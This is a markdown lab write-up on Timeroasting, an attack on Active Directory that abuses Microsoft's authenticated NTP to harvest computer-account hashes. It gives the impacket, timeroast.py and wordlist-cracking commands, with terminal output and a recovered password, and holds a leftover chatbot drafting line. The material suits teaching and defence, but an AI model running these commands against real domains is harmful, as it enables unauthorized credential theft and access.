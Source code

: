 # 🔐 Timeroasting

## What is Timeroasting?

**Timeroasting** is a cyber security attack technique that targets **Active Directory (AD) environments**. It allows an attacker to **extract password hashes of computer accounts** from a Domain Controller (DC) using a feature in Microsoft’s custom implementation of the **Network Time Protocol (NTP)**.

## How It Works

In modern AD domains, Microsoft added an **authentication extension to NTP** to prevent time spoofing. When a domain-joined computer requests the current time from a Domain Controller, the DC includes a **Message Authentication Code (MAC)** in the response. This MAC is calculated using the **NTLM hash of the computer account password** as a key.

The important flaw is:

* The client does **not need to be authenticated**.
* Anyone can send a specially crafted NTP request with a **computer account RID (Relative Identifier)**.
* The server will return a valid time response with a MAC that uses the **targeted computer's password hash**.

In effect, this means an attacker can ask the DC to **generate a salted hash of any computer account password** in the domain — without needing any valid credentials.

---

##  When is Timeroasting Successful?

While the concept is clever, Timeroasting is **only effective under certain conditions**:

| Condition                        | Description                                                                                               |
| -------------------------------- | --------------------------------------------------------------------------------------------------------- |
|  **Weak or Static Passwords**  | If computer accounts use weak or manually set passwords (e.g., `Welcome1!`), they can be cracked offline. |
|  **Old or Inactive Accounts** | Machine accounts that are no longer active might have passwords that were never rotated.                  |
|  **Cloned or Imaged Systems**  | If multiple machines are cloned with the same password, cracking one gives access to others.              |
|  **Non-Windows Clients**       | Devices like Linux servers or legacy systems might use fixed or simple passwords.                         |

By default, machine passwords are **long (128 characters)** and **automatically rotated**, making Timeroasting ineffective. But in **misconfigured or poorly managed domains**, it becomes a viable attack.


Got it — here’s a more **to-the-point** version of **Part 2: Setting Up the Lab** for your `.md` file:

---

## Setting Up the Lab

There’s no full lab setup required to perform Timeroasting.

However, to simulate a vulnerable scenario, suppose an admin manually creates a computer account with a weak password:

```bash
impacket-addcomputer -computer-name 'NewComp$' -computer-pass '!)!@carelesswhisper!(&*' -dc-host furious.local 'furious.local/jcharles:complex1@'
```
```
┌──(kali㉿kali)-[~/Home-lab/timeroast/Timeroast]
└─$ impacket-addcomputer -computer-name 'NewComp$' -computer-pass 'Musselburgh21' -dc-host furious.local 'furious.local/Administrator:complexPassword123'
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Successfully added machine account NewComp$ with password Musselburgh21.
                                                                                                                                                 
┌──(kali㉿kali)-[~/Home-lab/timeroast/Timeroast]
```
This adds a machine `NewComp$` with a **static password**. Such accounts are vulnerable to Timeroasting because the password may be crackable once the MAC is obtained via an NTP request.



## Abusing Timoroast

To extract computer account password hashes using Timeroast, we use this Python script from Secura:[Timeroast](https://github.com/SecuraBV/Timeroast)

```
python3 timeroast.py 192.168.129.140 -o hashes.txt 
```
```
┌──(kali㉿kali)-[~/Home-lab/timeroast/Timeroast]
└─$ python3 timeroast.py 192.168.129.140 -o hashes.txt 
                                                                                                                                                 
┌──(kali㉿kali)-[~/Home-lab/timeroast/Timeroast]
└─$ cat hashes.txt 
1000:$sntp-ms$9eb447f975b025ded3de3b9117dd6a17$1c0111e900000000000a00914c4f434cec22449184142c06e1b8428bffbfcd0aec224551780ba047ec224551780c1fc8
1103:$sntp-ms$48aa71e836a25c57ad1bd565893c8210$1c0111e900000000000a00924c4f434cec22449185fdf995e1b8428bffbfcd0aec22455222266772ec22455222271e51
1135:$sntp-ms$5fac50f3376845f4fb87d2ab2a6feaef$1c0111e900000000000a00924c4f434cec22449185d4cac8e1b8428bffbfcd0aec22455255f53825ec22455255f5a533
1144:$sntp-ms$0ca0ab3bd15543dffb04128f1c915a9f$1c0111e900000000000a00924c4f434cec22449186c64c80e1b8428bffbfcd0aec22455262eef00dec22455262ef657e
1150:$sntp-ms$a0af54bbb2371e1fa451f70b24398d3a$1c0111e900000000000a00924c4f434cec22449183889997e1b8428bffbfcd0aec2245526bb95018ec2245526bb9edcc
1151:$sntp-ms$2ec321f9dee078ad74b3b9cbf64c1f6d$1c0111e900000000000a00924c4f434cec224491845cf67be1b8428bffbfcd0aec2245526c8dd89bec2245526c8e368f
1153:$sntp-ms$3fcab8bdfeed02ba37e5a2397623226e$1c0111e900000000000a00924c4f434cec22449186b313bee1b8428bffbfcd0aec2245526ee3d7abec2245526ee4572d
1154:$sntp-ms$0b4e71f42b1cadab0e236520463e1889$1c0111e900000000000a00924c4f434cec22449183c5c571e1b8428bffbfcd0aec2245526fcd8127ec2245526fce1b81
                                            
```

Now use the custom cracking script with a wordlist like rockyou.txt:

```
python3 timeroast_cracker.py -H ../Timeroast/hashes.txt -w /usr/share/wordlists/rockyou.txt 
```
```
┌──(kali㉿kali)-[~/Home-lab/timeroast/timeroast_cracker]
└─$ python3 timeroast_cracker.py -H ../Timeroast/hashes.txt -w /usr/share/wordlists/rockyou.txt 

[*] Cracking RID 1000...
🔍 RID 1000: 100%|████| 14344381/14344381 [01:33<00:00, 152884.14pw/s]
[-] Password for RID 1000 not found in wordlist.

[*] Cracking RID 1103...
🔍 RID 1103: 100%|████| 14344381/14344381 [01:40<00:00, 142777.90pw/s]
[-] Password for RID 1103 not found in wordlist.

[*] Cracking RID 1135...
🔍 RID 1135: 100%|████| 14344381/14344381 [01:52<00:00, 127299.50pw/s]
[-] Password for RID 1135 not found in wordlist.

[*] Cracking RID 1150...
🔍 RID 1150: 100%|████| 14344381/14344381 [01:13<00:00, 194154.42pw/s]
[-] Password for RID 1150 not found in wordlist.

[*] Cracking RID 1151...
🔍 RID 1151: 100%|████| 14344381/14344381 [01:07<00:00, 212365.81pw/s]
[-] Password for RID 1151 not found in wordlist.

[*] Cracking RID 1154...
🔍 RID 1154:   7%|▎    | 1025976/14344381 [00:04<00:56, 234143.70pw/s]
[+] Password for RID 1154: Musselburgh21
🔍 RID 1154:   7%|▎    | 1046126/14344381 [00:04<00:59, 223272.38pw/s]

```


Using Timeroasting, we successfully recovered a plain-text computer password:

```
Musselburgh21
```

This demonstrates how vulnerable weak or static computer account passwords can be exploited to gain unauthorized access.

##  Resources

* Detailed Whitepaper: [Secura Timeroasting Whitepaper (PDF)](https://cybersecurity.bureauveritas.com/uploads/whitepapers/Secura-WP-Timeroasting-v3.pdf)
* Tool Repository: [SecuraBV/Timeroast on GitHub](https://github.com/SecuraBV/Timeroast)

